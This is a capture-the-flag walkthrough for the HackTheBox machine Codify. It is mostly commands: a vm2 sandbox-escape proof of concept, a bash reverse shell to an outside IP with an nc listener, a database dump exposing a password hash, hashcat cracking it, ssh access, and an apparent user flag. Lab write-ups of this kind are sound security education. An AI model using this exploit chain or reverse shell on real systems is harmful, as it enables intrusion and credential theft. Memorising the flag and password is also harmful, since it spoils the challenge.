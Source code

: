 ### 06-Apr-24-Sat

[Codify | HackTheBox](https://app.hackthebox.com/machines/Codify)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2a62f921-2f8c-4617-95c8-1a2f4e3481d2)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1b31a4a9-b243-4dca-894a-b770e219e958)

*Walkthrough* - https://youtu.be/wH1Lp-sEVv4 (https://www.youtube.com/@ippsec)

```
sudo nmap -sC -sV -oA nmap 10.129.213.88
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/bd6b3705-a0a6-430e-b114-bd9b42b1223b)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/73bcec52-ccbe-42d0-a2e9-2f96f420fd9d)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1b629033-6cca-4906-80a9-1e65742fec59)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/919b6373-0ac7-4c35-9779-aebcc6b38cb8)

`codify.htb`

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/43939323-9e03-4dba-acd8-52a03c1c9456)

http://codify.htb/

http://codify.htb/editor

http://codify.htb/limitations

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b2902478-40d0-40ac-8767-a6f8143245fd)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9559fdfe-a0d4-48d7-affa-305826decf9b)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a3f7394d-6195-4e45-bf1c-11fc6701e2d3)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/fa2ae3d9-ce6a-4521-abdd-f7c671f27e02)

https://github.com/patriksimek/vm2/releases/tag/3.9.16

https://github.com/patriksimek/vm2/security

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/5c9d5151-a941-4d42-b3d7-d3116a7c1f1b)

https://github.com/patriksimek/vm2/security/advisories/GHSA-whpj-8f3w-67p5

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1a6f848d-7409-43a8-81f7-9551a67961b3)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b2754e25-73d7-4a77-9994-c47412a706c1)

https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b8684266-253e-441d-b540-5b38913b49d0)

### POC

```
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2ce92345-3f77-4ff7-99f7-ee054d21a9b0)

https://www.revshells.com/

```
"bash -c 'sh -i >& /dev/tcp/10.10.16.12/443 0>&1'"
```

```
sudo nc -lvnp 443
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b5cec825-df53-4607-91de-4cd2cb9cb35a)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/48f585ef-793b-402b-aa48-36144106661e)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/01a4c184-403e-4df8-8040-2d4fa7058d15)

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
stty raw -echo;fg
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/e5f076e7-0956-44ca-9257-e85c52d1704a)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/99b4f478-3b54-4751-9b2b-9a9b482eb213)

```
echo $TERM
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a38e5ade-416c-4043-aca4-adb574fd4dae)

```
ss -lntp
```

```
pm2 list
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1cdc2178-2d4d-4216-82fa-1d89068e0027)

```
ps -ef --forest |less -S
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/e1a20f76-1563-44c8-a6c2-1c461d20aa71)

```
stty -a
```

```
stty rows 28 cols 110
```

```
sqlite3 tickets.db .dump
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/938b8cbe-c7d8-44a7-b588-5524938a2c92)

```
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
    );
INSERT INTO users VALUES(3,'joshua','$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2');
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT);
INSERT INTO tickets VALUES(1,'Tom Hanks','Need networking modules','I think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!','open');
INSERT INTO tickets VALUES(2,'Joe Williams','Local setup?','I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.','open');
DELETE FROM sqlite_sequence;
INSERT INTO sqlite_sequence VALUES('users',3);
INSERT INTO sqlite_sequence VALUES('tickets',5);
COMMIT;
```

```
hashcat -m 3200 joshua.hash /usr/share/wordlists/rockyou.txt
```

```
spongebob1
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1e811bf8-e7aa-4025-bde9-bb6d0308ff9d)

```
ssh joshua@codify.htb
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/f29aebbf-2ef9-46c4-9315-7a3c1f002738)

```
8d905687c899e53de3cdf0615d245805
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/0fa54d7c-ca5f-4a17-b1ec-52eb75722cc4)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/06e2f720-ae7e-40d1-8518-4a3b593fc9a9)

